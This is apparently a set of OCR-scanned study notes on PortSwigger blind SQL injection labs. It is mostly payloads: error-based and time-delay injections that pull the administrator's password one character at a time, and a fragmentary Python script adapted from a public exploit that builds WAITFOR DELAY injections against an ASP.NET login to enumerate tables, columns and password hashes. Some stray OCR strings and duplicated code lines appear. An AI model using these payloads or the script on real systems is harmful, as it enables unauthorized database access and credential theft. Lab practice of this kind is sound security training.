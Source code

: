 ```python=
```

py6s0jxo74isafy3f6mf

```
' UNION SELECT (CASE WHEN (substr(password, 1,1)='1') THEN 'a' ELSE CAST(1/0 AS CHAR) END) FROM users WHERE username='administrator'--
Running!
py6s0jxo74isdzy3f6mf
py6
```

### Blind SQL injection with time delays
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

`';SELECT pg_sleep(10)--`


### Blind SQL injection with time delays and information retrieval

https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
```
';SELECT CASE WHEN (substr((SELECT password from users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(5) END--
```

```python=
#!/usr/bin/python3
# https://github.com/timip/exploit/blob/master/timeclock.py


import requests, string, sys
import urllib.parse

delay = 5
payload = lambda x: "__VIEWSTATE=/wEPDwUKLTQ0NDEwMDQ5MmRksS3kT9xVa5WcaOExJczybgwm5ag61c1aSJauWk+MueM=&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=/wEdAAQlk/dmKT4Sorxxd/xByuYXG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6cSWj1jCV5XpbYX8jTlKxWkDqoWst7QvUmEJo+jB/FoQ=&ctl00$ContentPlaceHolder1$UsernameTextBox="+x+"&ctl00$ContentPlaceHolder1$PasswordTextBox=&ctl00$ContentPlaceHolder1$LoginButton=Enter"
payload = lambda x: {
    "__VIEWSTATE":"/wEPDwUKLTQ0NDEwMDQ5MmRksS3kT9xVa5WcaOExJczybgwm5ag61c1aSJauWk+MueM=",
    "__VIEWSTATEGENERATOR":"CA0B0334",
    "__EVENTVALIDATION":"/wEdAAQlk/dmKT4Sorxxd/xByuYXG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6cSWj1jCV5XpbYX8jTlKxWkDqoWst7QvUmEJo+jB/FoQ=",
    "ctl00$ContentPlaceHolder1$UsernameTextBox":x,
    "ctl00$ContentPlaceHolder1$PasswordTextBox":"", 
    "ctl00$ContentPlaceHolder1$LoginButton":"Enter"}
q = lambda pos, char, entry,col,table,ordercol,condition: f"'; IF LOWER(SUBSTRING((SELECT {col} FROM {table} WHERE {condition} ORDER BY {ordercol} OFFSET {entry} ROWS FETCH NEXT 1 ROWS ONLY),{pos},1))='{char}' WAITFOR DELAY '00:00:{delay}'; --"

# Tables
#query = lambda pos,char,entry: q(pos,char,entry,"TABLE_NAME","information_schema.TABLES","TABLE_NAME", "1=1") #"COL", "TABLE", "CONDITION")
# Columns
query = lambda pos,char,entry: q(pos,char,entry,"COLUMN_NAME","information_schema.COLUMNS","COLUMN_NAME", "TABLE_NAME='users'") #"COL", "TABLE", "CONDITION")
# Usernames
#query = lambda pos,char,entry: q(pos,char,entry,"password_hash","users","username", "1=1") #"COL", "TABLE", "CONDITION")

query = lambda pos,char,entry: f"' UNION SELECT 'a' FROM users WHERE username='administrator' AND substring(password, {pos},1)='{char}'--"
```